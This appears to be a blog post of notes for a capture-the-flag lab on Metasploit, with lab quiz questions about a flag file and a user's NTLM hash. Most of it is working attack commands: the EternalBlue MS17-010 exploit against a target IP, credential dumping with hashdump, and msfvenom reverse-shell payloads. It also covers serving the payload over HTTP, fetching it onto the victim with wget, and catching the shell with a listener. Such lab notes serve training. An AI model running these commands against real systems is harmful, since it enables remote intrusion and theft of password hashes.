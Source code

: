 use use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.10
set rport 445
exploit

# meterpreter -> cmd : change to interactable shell with native command

shell

# etc

cd
dir
pwd
search -f flag.txt
type flag.txt

![](https://velog.velcdn.com/images/agnusdei1207/post/841b2d11-69ad-4a2c-b3e6-1dcfe22a113e/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/af142867-ed28-4348-9802-09e0fb636536/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/e74d0066-fe70-4808-b11e-c441694f304f/image.png)
What is the content of the flag.txt file?

![](https://velog.velcdn.com/images/agnusdei1207/post/bee7be2c-3990-444c-a2c2-63c32c46b790/image.png)
What is the NTLM hash of the password of the user "pirate"?

# hash 는 meterpeter 커맨드에서 바로 실행하기

hashdump
meterpeter> hashdump

# ip a

inet 172.17.0.1/16

# attacker host, port

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.201.99.36 LPORT=1234 -f elf > rev_shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.201.99.36 LPORT=1234 -f exe > rev_shell.exe

# In attacking machine:

python3 -m http.server 1234

In the machine being attacked:

wget http://ATTACKING_MACHINE_IP:1234/rev_shell.elf

Now remember we need a listener on our shell for RCE:

(Type these commands in the metasploit shell)

use exploit/multi/handler

set payload linux/x86/meterpreter/reverse_tcp

Now just set the LHOST and LPORT the same you did in the exploit.
Last thing to do is run that file and recieve the connection :

chmod +x rev_shell.elf in the shell we have ssh the account

Start the listener in your machine by the command told above.

Run the file by ./rev_shell.elf

You got the meterpreter reverse shell in your machine ;)

#4 Use a post exploitation module to dump hashes of other users on the system.

msfconsole

run post/linux/gather/hashdump
